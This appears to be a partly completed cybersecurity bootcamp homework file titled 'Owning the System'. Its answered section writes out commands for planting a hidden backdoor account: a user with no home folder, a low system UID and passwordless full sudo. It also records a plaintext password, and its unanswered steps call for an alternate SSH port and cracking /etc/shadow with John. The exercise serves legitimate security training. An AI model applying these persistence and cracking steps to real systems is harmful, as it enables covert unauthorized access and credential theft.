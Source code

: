 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser --no-create-home sysd

2. Give your secret user a password: 
    - When prompted for password for user, enter the password. I did SupaMar10

3. Give your secret user a system UID < 1000:
    - usermod -u 202 sysd

4. Give your secret user the same GID:
   - groupmod -g 202 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
   -  in the sudoers file, append at the end: 
   -  sysd ALL = NOPASSWD: ALL

6. Test that `sudo` access works without your password:
   -  logged in to server as sysd in a new terminal, just to be safe if I made any syntax errors in sudoers

    ```bash
    ssh sysd@192.168.6.105 -p 22
    entered password
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Your bash commands here
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here`

2. Exit the `root` account:
    - `Your solution command here`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`

4. Use `sudo` to switch to the root user:
    - `Your solution command here`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

